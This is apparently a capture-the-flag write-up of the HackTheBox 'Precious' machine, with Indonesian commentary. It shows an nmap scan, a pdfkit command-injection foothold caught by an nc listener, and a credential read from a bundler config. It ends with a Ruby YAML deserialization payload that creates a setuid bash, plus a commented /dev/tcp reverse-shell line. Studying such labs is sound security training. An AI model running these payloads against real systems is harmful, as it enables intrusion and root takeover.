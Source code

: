 ```yaml
---
title: "HackTheBox - Precious" # Important
date: 2024-02-06 08:01:00 +0700 # Important
categories: [HackTheBox, Machines]
tags: [easy]
---
```


![Desktop View](/assets/img/hackthebox/machines/easy/precious/Precious.png)


## Recon
### Nmap
```bash
# Nmap 7.94 scan initiated Mon Feb  5 23:08:59 2024 as: nmap -sCV -T4 -oN nmap.txt 10.10.11.189
Nmap scan report for JSN.JaringanKU (10.10.11.189)
Host is up (0.042s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb  5 23:09:10 2024 -- 1 IP address (1 host up) scanned in 10.97 seconds
```
```bash
echo "10.10.11.189 precious.htb" | sudo tee -a /etc/hosts
```

### Browser

![Desktop View](/assets/img/hackthebox/machines/easy/precious/precious1.png)

```bash
❯ vim test.txt
❯ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

![Desktop View](/assets/img/hackthebox/machines/easy/precious/precious2.png)

![Desktop View](/assets/img/hackthebox/machines/easy/precious/precious3.png)

```bash
❯ exiftool ouw1241pjvgxxd5vehgondzv0mtdaw5p.pdf
ExifTool Version Number         : 12.70
File Name                       : ouw1241pjvgxxd5vehgondzv0mtdaw5p.pdf
Directory                       : .
File Size                       : 9.8 kB
File Modification Date/Time     : 2024:02:06 08:13:14+07:00
File Access Date/Time           : 2024:02:06 08:13:15+07:00
File Inode Change Date/Time     : 2024:02:06 08:18:37+07:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

Nah, ada yang menarik nih. `Generated by pdfkit v0.8.6` coba kita cari eksploitnya. Dan saya menemukan [> ini <](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

![Desktop View](/assets/img/hackthebox/machines/easy/precious/precious4.png)
![Desktop View](/assets/img/hackthebox/machines/easy/precious/precious5.png)
![Desktop View](/assets/img/hackthebox/machines/easy/precious/precious6.png)
![Desktop View](/assets/img/hackthebox/machines/easy/precious/precious7.png)

## Shell into Ruby

![Desktop View](/assets/img/hackthebox/machines/easy/precious/precious8.png)

```bash
❯ nc -nvlp 9001
Connection from 10.10.11.189:34656
bash: cannot set terminal process group (679): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
ruby@precious:/var/www/pdfapp$ export TERM=xterm
export TERM=xterm
ruby@precious:/var/www/pdfapp$ ^Z
[1]  + 47516 suspended  nc -nvlp 9001

❯ stty raw -echo; fg
[1]  + 47516 continued  nc -nvlp 9001

ruby@precious:/var/www/pdfapp$ cd
ruby@precious:~$ ls
ruby@precious:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for ruby:

ruby@precious:~$ ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 Feb  5 11:09 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 4 ruby ruby 4096 Feb  5 11:16 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ cd .bundle
ruby@precious:~/.bundle$ ls -la
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 Feb  5 11:09 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
ruby@precious:~/.bundle$ cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

## Shell into Henry

```ssh
❯ ssh henry@precious.htb
henry@precious.htb''s password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Feb  5 20:42:17 2024 from 10.10.14.26
henry@precious:~$ ls
user.txt
henry@precious:~$ cat user.txt
7754ab9bcbd0e58ec245c32c972eeb09
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
Traceback (most recent call last):
	2: from /opt/update_dependencies.rb:17:in `<main>'
	1: from /opt/update_dependencies.rb:10:in `list_from_file'
/opt/update_dependencies.rb:10:in `read`: No such file or directory @ rb_sysopen - dependencies.yml (Errno::ENOENT)
```
Coba cari digoogle `dependencies.yml privilege escalation`. Saya menemukan [> ini <](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ruby-privilege-escalation/#remote-code-execution-with-yaml)

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cp /bin/bash /tmp/kz; chmod 6777 /tmp/kz
         method_id: :resolve
# "bash -c 'bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1'"
```
```ssh
henry@precious:/dev/shm$ wget 10.10.14.26:7890/dependencies.yml
--2024-02-05 21:10:41--  http://10.10.14.26:7890/dependencies.yml
Connecting to 10.10.14.26:7890... connected.
HTTP request sent, awaiting response... 200 OK
Length: 638 [application/octet-stream]
Saving to: ‘dependencies.yml’

dependencies.yml         100%[================================>]     638  --.-KB/s    in 0s      

2024-02-05 21:10:41 (59.7 MB/s) - ‘dependencies.yml’ saved [638/638]

henry@precious:/dev/shm$ sudo ruby /opt/update_dependencies.rb 
sh: 1: reading: not found
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	<snip><snip>
	1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
henry@precious:/dev/shm$ ls /tmp/kz
/tmp/kz
henry@precious:/dev/shm$ /tmp/kz -p
kz-5.1# ls
dependencies.yml
kz-5.1# cd /root
kz-5.1# ls
root.txt
kz-5.1# cat root.txt
8e1ac4e7ff3b4d430a90c02493eb8cd4
kz-5.1# 
```